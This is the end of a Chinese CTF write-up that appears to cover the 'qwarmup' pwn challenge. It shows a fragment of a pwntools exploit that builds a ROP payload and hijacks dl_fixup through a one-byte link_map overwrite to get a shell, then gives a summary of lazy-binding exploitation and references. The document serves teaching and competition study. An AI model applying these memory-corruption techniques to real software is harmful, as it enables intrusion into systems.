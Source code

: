 ````python
payload = b"flag".ljust(0xa0,b'\x00')+p64(heap+0x100)+p64(pop_rdi)
payload = payload.ljust(0x100,b'\x00')
payload += rop
write(0,payload)

# debug(p,"b *{}".format(setcontext))
# pause()

# =============[call _IO_flush_all]==============
write_nosuccess(binary_map.l_info(binary_map.DT_STRTAB),"\xb8")

# debug(p)
p.interactive()
````

## 0x03 总结

qwarmup只是相对简单的`dl_fixup`利用，虽然只有1字节写，但是从1字节写到无限字节写是一种常规的利用思路，同时，由于启用了`puts`等函数，打`IO_file`结构体泄露`libc`的真实地址使得这题难度再次下降。

但是这道题就引入了一种很好的思路，对延迟绑定的利用不一定非要局限于`ret2dl`的模板化利用，将视野放到整个延迟绑定的过程，它涉及多个结构体和各种指针，对其的劫持和利用是一类很好的思路。

当然，如果这题没有使用`puts`等函数，那该如何泄露`libc`？或者说，可不可以在不泄露libc的情况下执行ROP。

这里以国外比赛`writeup`为例，具体不在详述：

- **DiceCTF2022 nightmare** ： [the pepsi place | Nightmare: Novel Exploitation Tactics With One Byte Write. (pepsipu.com)](https://blog.pepsipu.com/posts/nightmare)
- **secconCTF2022 simplemod**：[simplemod | Organisers (anize.rs)](https://org.anize.rs/SECCON-2022/pwn/simplemod.html)

 ##  0xFF 参考连接

[动态节 - Oracle® Solaris 11.2 链接程序和库指南](https://docs.oracle.com/cd/E56344_01/html/E54069/chapter6-42444.html)

[dicectf-2022-challenges/pwn/nightmare at master · dicegang/dicectf-2022-challenges · GitHub](https://github.com/dicegang/dicectf-2022-challenges/tree/master/pwn/nightmare)

[SECCON CTF 2022 babyfile/simplemod (github.com)](https://gist.github.com/shift-crops/ff8c9f60660e2e7ab0e8c9f615c63176)

[dl-runtime.c source code  - Codebrowser](https://codebrowser.dev/glibc/glibc/elf/dl-runtime.c.html#_dl_fixup)

[2022 强网杯 Pwn 部分Writeup-Pwn影二つ的博客 (kagehutatsu.com)](https://kagehutatsu.com/?p=723)

[_dl_runtime_resolve源码分析_二侠的博客-CSDN博客](https://blog.csdn.net/conansonic/article/details/54634142)

[Data Related Sections - CTF Wiki (ctf-wiki.org)](https://ctf-wiki.org/executable/elf/structure/data-related-sections/)

[深入窥探动态链接-Pwn-看雪论坛-安全社区|安全招聘|bbs.pediy.com](https://bbs.pediy.com/thread-258597.htm#msg_header_h1_2)

